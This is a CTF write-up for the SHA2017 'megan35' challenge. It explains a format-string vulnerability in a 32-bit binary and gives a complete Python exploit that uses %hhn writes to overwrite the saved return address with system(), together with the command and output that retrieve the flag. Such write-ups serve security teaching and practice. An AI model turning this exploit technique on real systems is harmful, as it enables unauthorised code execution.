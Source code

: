 ```yaml
---
title: SHA2017 CTF - megan35 (pown 200)
author: Tosh
date: 2017-08-07
tags: ctf,pown,format string
layout: post
---
```


This is my solution for the challenge megan35 from SHA2017 CTF.

# Description of the challenge

We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

A service is running on megan35.stillhackinganyway.nl:3535.

Files provided (ELF-32 bits):

- [megan-35](https://repo.t0x0sh.org/ctf/2017/sha/megan-35)

- [libc.so.6](https://repo.t0x0sh.org/ctf/2017/sha/libc.so.6)

Protections :

```
RELRO          Partial RELRO
STACK CANARY   Canary found
NX             NX enabled
PIE            No PIE
RPATH          No RPATH
RUNPATH        No RUNPATH
ASLR           ASLR is disabled
```

# The vulnerability

The program decodes a megan35 string, and print it to stdout. The problem is that the buffer is directly passed to the printf() function which makes the program vulnerable to format string attack.

To build my exploit, I used the script [weird_encodings.py](https://gist.github.com/tunelko/49b7e64c1688d62d0ecd) from a github repository to encode strings in megan-35.

I started to get the base address of libc function from the leak of the format string (by using "%s").

With this address and the libc provided, I'm now able to build a return2libc attack and overwrite the saved-eip with the system() address !

And all is done !


# My exploit

```python
import base64
import sys
import struct

class Megan35:

    def __init__(self):
        megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmn" \
                  "opWXYZ/12+406789VaqrstuvwxyzABCDEF5"
        b = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
        self.srch = dict(zip(b, megan35))
        self.revlsrch = dict(zip(megan35, b))

    def encode(self, pt):
        global srch
        b64 = base64.b64encode(pt)
        r = "".join([self.srch[x] for x in b64])
        return r

# Obtained with a bit of bruteforcing :)
SEIP = 0xFFFFdb5c

# Obtained with leak
SYSTEM = 0xf7e53940

payload = struct.pack('<I', SEIP+3)
payload += struct.pack('<I', SEIP+2)
payload += struct.pack('<I', SEIP+1)
payload += struct.pack('<I', SEIP+0)

FMT = "a;cat flag    ;%0{}x%7$hhn%0{}x%8$hhn
                     %0{}x%9$hhn%0{}x%10$hhn\n".format(220,238,84,263)

payload += Megan35().encode(FMT)

print payload
```

We get :

```
$ python2.7 sploit.py | ncat megan35.stillhackinganyway.nl 3535
  Decrypt your text with the MEGAN-35 encryption.
  sh: 1: }yuqa: not found
  flag{43eb404b714b8d22e1168775eba1669c}
  sh: 1: %0220x%7%0238x%8%084x%9%0263x%10: not found
```
